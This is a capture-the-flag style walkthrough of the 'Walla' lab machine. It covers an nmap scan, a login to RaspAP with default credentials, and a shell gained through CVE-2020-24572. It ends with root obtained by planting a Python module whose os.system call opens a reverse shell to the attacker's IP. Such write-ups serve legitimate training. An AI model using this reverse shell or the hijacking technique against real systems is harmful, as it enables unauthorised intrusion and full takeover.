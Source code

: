 #### Enumeration

##### Nmap

```
# Nmap 7.91 scan initiated Fri Jul  2 09:04:26 2021 as: nmap -Pn -p- -sC -sV -T4 -oN Walla.nmap 192.168.229.97
Nmap scan report for 192.168.229.97
Host is up (0.21s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 09:26:35 2021 -- 1 IP address (1 host up) scanned in 1329.58 seconds
```

Connect to http service on 8091 port.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_00h38m46s_001_.png)

Notice the RaspAp that is a wireless router software. Login to the WebUI with the default credential username `admin` and password `secret` successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_01h03m31s_002_.png)

In the about page, we know that the version is `2.5`.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_01h06m13s_003_.png)

There is a remote command execution vulnerability [CVE-2020-24572](https://github.com/gerbsec/CVE-2020-24572-POC) can use to obtain an interactive shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_19h04m45s_001_.png)

Get the local.txt.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_19h05m42s_002_.png)

#### Privilege Escalation

Use command `sudo -l` to list available permissions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_19h22m05s_003_.png)

Notice the `wifi_reset.py` import the `wificontroller.py`. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_19h22m39s_004_.png)

We can set up a `wificontroller.py` file, which contains the reverse shell content, to make `wifi_reset.py` call.

```
#!/usr/bin/env python
import os
import sys
try:
        os.system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.140\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'")
except:
        print 'ERROR...'
sys.exit(0)
```

After create `wificontroller.py` file in the `/home/walter` folder. Execute the command `sudo /usr/bin/python /home/walter/wifi_reset.py`.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_20h03m18s_005_.png)

Get a shell back with root permisson.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Walla/Walla_2021.07.10_20h03m58s_006_.png)
